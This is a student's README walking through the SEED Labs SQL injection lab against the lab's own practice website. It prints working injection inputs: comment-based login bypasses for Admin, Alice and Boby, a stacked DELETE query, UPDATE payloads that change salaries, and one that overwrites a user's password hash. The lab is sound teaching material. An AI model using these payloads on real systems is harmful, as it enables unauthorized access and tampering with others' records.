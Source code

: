 # Seed-Lab-Sql-Injection-Attack
SQL injection attack

|  Name   | Title |
| ------------- | ------------- |
| Asad Ali  | Seed Lab SQL Injection  |

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Task 1
### Login to MYSQL
```
sudo mysql -u root -pseedubuntu
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/mysql%20query.PNG)
### Use Users Database from Databases
```
mysql> use Users;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/use%20users.PNG)
## Showing Tables from Users Database
```
mysql> show Tables;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/show%20table.PNG)
## Select Name="Alice" from Users Database
```
mysql> select * from credential where Name = 'Alice';
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/select%20query.PNG)
# Task 2
## Task2.1
- Username ```"Admin'#"```
- Password ```"abc"```
It will result in a SQL query as:
```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='abc'
```
Then statements after ```#``` will be regarded as comments. So we can log in as ```Admin```.

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/users%20details.PNG)
## Task 2.2
```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/curl%20url.PNG)
## Task 2.3

Now we use SQL query to update data using same vulnerability
```
'1=1; DELETE from credential where name='Alice';
```
So 
- USERNAME : ```'1=1; DELETE from credential where name='Alice';```
- PASSWORD : ```""```
 
 As result
 
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/task%202.3%20use%20delete%20query.PNG)

Because in PHP's ```mysqli``` extension, which invokes ```mysqli::query``` API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

# Task 3
It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com).
In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

## Task 3.1

Log in with Alice's 
- USERNAME : ```"Alice'#"```
- PASSWORD : ```""```

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/alice%20profile.PNG)

 Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php 
 
 Than Modify Phone Number as ```', Salary=1000000 #``` and save.
 
 ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/modify%20alice%20number.PNG)
 
## Task 3.2

Log in with Boby 
- USERNAME : ```"Boby'#"```
- PASSWORD : ```""```

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/Boby%20profile.PNG)

 Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php 
 
 Than Modify Phone Number as ```', Salary=0 #``` and save.
 
 ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/salary%20of%20boby%20change.PNG)
 
## Task 3.3

The simplest approach is to log-in as Alice like Task 3.1 and change the password.
Log in with Boby 
- USERNAME : ```"Alice'#"```
- PASSWORD : ```""```

 Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php 
 
 Assume we want to change Alice's password as ```12345```. First, we should get SHA1 value of our new password via Terminal using Command
 
 ```echo "12345"|sha1sum```
  ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/hash%20pass.PNG)
  
 So our SHA1 code is 
 
 ```2672275fe0c456fb671e4f417fb2f9892c7573ba```
 
 Than Modify Phone Number as ```', password='2672275fe0c456fb671e4f417fb2f9892c7573ba' where name='Alice' #``` and save.
 
 ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/Alice%20pass%20update.PNG)
 
 now you login to Alice
 - USERNAME : ```Alice```
 - PASSWORD : ```12345```
 
